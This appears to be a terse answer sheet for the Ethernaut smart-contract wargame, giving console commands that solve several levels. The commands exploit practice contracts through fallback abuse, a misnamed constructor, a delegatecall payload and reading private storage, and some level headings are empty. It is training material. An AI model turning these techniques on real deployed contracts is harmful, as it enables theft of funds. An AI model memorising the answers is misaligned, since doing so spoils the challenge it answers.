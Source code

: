 # 1. Hello Ethernaut
```
contract.info()

contract.info1()

contract.info2()

contract.infoNum()

contract.info42()

contract.theMethodName()

contract.method7123949()

contract.password()

contract.authenticate("ethernaut0")

```
---
# 2. Fallback
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})

contract.sendTransaction({from: player, value: toWei(0.0000001)})

contract.withdraw()
```
---
# 3. Fallout
```
contract.Fal1out.sendTransaction({from: player, value: toWei("0.00001")})
```
# 4. Coin Flip

---
# 5. Telephone

---
# 6. Token

---
# 7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```
---
 # 8. Force

---
 # 9. Vault
```web3.eth.getStorageAt(instance, "1")```


